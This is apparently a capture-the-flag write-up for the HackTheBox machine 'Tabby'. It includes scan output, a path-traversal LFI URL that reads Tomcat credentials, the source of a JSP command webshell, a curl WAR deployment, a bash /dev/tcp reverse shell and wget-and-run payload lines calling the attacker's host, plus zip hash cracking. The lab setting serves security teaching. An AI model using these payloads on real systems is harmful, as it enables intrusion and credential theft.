







# :cat: Tabby :heart_eyes_cat:

### Initial Scans

**Quick:**

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

**Deep:**

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
|_banner: SSH-2.0-OpenSSH_8.2p1 Ubuntu-4
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
| ssh2-enum-algos: 
|   kex_algorithms: (9)
|   server_host_key_algorithms: (5)
|   encryption_algorithms: (6)
|   mac_algorithms: (10)
|_  compression_algorithms: (2)
| vulners: 
|   cpe:/a:openbsd:openssh:8.2p1: 
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|_      CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.194
|     
...
| vulners: 
|   cpe:/a:apache:http_server:2.4.41: 
|       CVE-2020-11984  7.5     https://vulners.com/cve/CVE-2020-11984
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2020-9490   5.0     https://vulners.com/cve/CVE-2020-9490
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|_      CVE-2020-11993  4.3     https://vulners.com/cve/CVE-2020-11993
8080/tcp open  http    Apache Tomcat
| http-auth-finder: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.194
|   url                                         method
|   http://10.10.10.194:8080/host-manager/html  HTTP: Basic
|_  http://10.10.10.194:8080/manager/html       HTTP: Basic
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.194
|     
...
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-xssed: No previously reported XSS vuln.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

**Port 80:**

- Nikto:

  

- Dirb:

  

- Gobuster:

  

- Whatweb:

  ```bash
  http://10.10.10.194 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[sales@megahosting.com,sales@megahosting.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.194], JQuery[1.11.2], Modernizr[2.8.3-respond-1.4.2.min], Script, Title[Mega Hosting], X-UA-Compatible[IE=edge] 
  ```

  

  

**Port 8080:**

- Nikto:

  

- Dirb:

  

- Gobuster:

  

- Whatweb:

```bash
http://10.10.10.194:8080 [200 OK] Apache-Tomcat, Country[RESERVED][ZZ], IP[10.10.10.194], Title[Apache Tomcat]
```


## Getting User

Add megahosting.htb to /etc/hosts

```bash
10.10.10.194    megahosting.htb
```

Then clear cache in firefox and reopen


We see the statement at the top in http. Maybe LFI works?


And it looks like it does!

From here, send this to burpsuite's repeater to test out the file paths to see if they return anything. And we can read the tomcat users.xml file!

```bash
http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
```

Which has user and pass of 

```bash
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```


This lets us into the Host Manager app:




From here, we can upload a .war reverse web shell, but we don't have the deploy location...

Test  if we can just curl/manually touch it by navigating to 

```bash
http://10.10.10.194:8080/manager/text/deploy
```

And it returns a valid response! So doing a curl post upload will work. 

Let's create the shell and then catch it. We can also create an msfvenom payload, but let's try something new, let's use a new git repo with webshells and clone it:

```bash
git clone https://github.com/tennc/webshell.git

cp ./jsp/cmdjsp.jsp ~/Documents/htb/tabby/
```

Now modify the jsp file so it looks like:

```jsp
// note that linux = cmd and windows = "cmd.exe /c + cmd" 

<FORM METHOD=POST ACTION='cmdjsp.jsp'>
<INPUT name='pwn' type=text>
<INPUT type=submit value='Run'>
</FORM>

<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("pwn");
   String output = "";

   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) {
            output += s;
         }
      }
      catch(IOException e) {
         e.printStackTrace();
      }
   }
%>

<pre>
<%=output %>
</pre>


```

Make it into a war file:

```bash
zip cmdjsp.war cmdjsp.jsp
```

now upload it with curl:

```bash
curl -T cmdjsp.war -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/app
```

Now navigating to `http://10.10.10.194:8080/app/cmdjsp.jsp` will pull up a webshell we can run commands from

Now let's create the reverse shell in a `shell.sh` file:

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.14.8/443 0>&1'
```

Now in the command box enter in:

```bash
wget -P /tmp http://10.10.14.8/shell.sh && bash /tmp/shell.sh
```


After stabilizing and exploring around we find an interesting zip file:

```bash
tomcat@tabby:/var/www/html/files$ ls
16162020_backup.zip
```

Let's transfer it back and open it:

```bash
#see how to base64 transfer in the tutorials
unzip backup.zip
```

And it wants a password. Let's crack it with johntheripper:

```bash
zip2john backup.zip > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
	Using default input encoding: UTF-8
    Loaded 1 password hash (PKZIP [32/64])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    admin@it         (backup.zip)
    1g 0:00:00:00 DONE (2021-02-23 12:22) 1.388g/s 14392Kp/s 14392Kc/s 14392KC/s adnc153..adenabuck
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
```

And we get the password and user flag


## Priv Esc

Running linpeas returns LXD group privileges

Following this guide, we can mount the directory and become root: https://www.hackingarticles.in/lxd-privilege-escalation/


